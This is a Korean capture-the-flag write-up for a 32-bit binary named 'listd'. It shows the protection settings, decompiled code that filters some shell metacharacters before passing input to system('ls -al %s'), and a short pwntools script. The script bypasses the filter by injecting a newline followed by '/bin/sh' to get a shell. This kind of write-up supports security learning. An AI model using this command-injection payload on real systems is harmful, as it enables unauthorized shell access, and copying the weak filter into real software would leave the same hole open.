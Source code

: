 # 문제
***

listd 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

file 명령어 결과는 다음과 같다.
```
listd: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=acb3a41b7e1afaf7a9ff6bd06bad502136c4021f, not stripped
```

바이너리 코드
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-30Ch]
  char buf; // [esp+21Ch] [ebp-10Ch]
  unsigned int v6; // [esp+31Ch] [ebp-Ch]

  v6 = __readgsdword(0x14u);
  memset(&buf, 0, 0x100u);
  read(0, &buf, 0x100u);
  if ( strchr(&buf, '`')
    || strchr(&buf, '|')
    || strchr(&buf, '&')
    || strchr(&buf, '$')
    || strchr(&buf, '\'')
    || strchr(&buf, '"')
    || strchr(&buf, '`')
    || strchr(&buf, ';')
    || strchr(&buf, '`') )
  {
    puts("What are you doing ?");
    exit(0);
  }
  sprintf(&s, "ls -al %s", &buf);
  system(&s);
  return 0;
}
```

read로 입력을 받고 입력값에 "'", "|", "&", "$", "\", """, "`", ";" 등이 있으면 exit() 함수를 호출한다.


따라서 위의 문자 없이 system 함수에서 "ls -al"과 함께 "/bin/sh"를 실행해야 한다. 

처음에는 strchr을 우회하기 위해서 payload를 "\x00"+";"+"/bin/sh"와 같이 구성해봤다. 하지만 %s에 의해서 NULL 뒤에 있는 부분은 출력되지 않았다. 

그 다음 방안으로 "\0x0a" + "/bin/sh"를 넣었더니 system 함수에서 "ls -al"과 "/bin/sh"가 실행되어 쉘을 획득할 수 있었다. ("\x0a"+";"+"/bin/sh"로 payload를 구성하면 strchr에 의해서 exit함수가 호출된다.)

# 풀이
***
```
#!/usr/bin/python

from pwn import *

file_path="/home/sungyun/round2/listd/listd"

p=process(file_path)

p.send("\x0a"+"/bin/sh")

p.interactive()
```

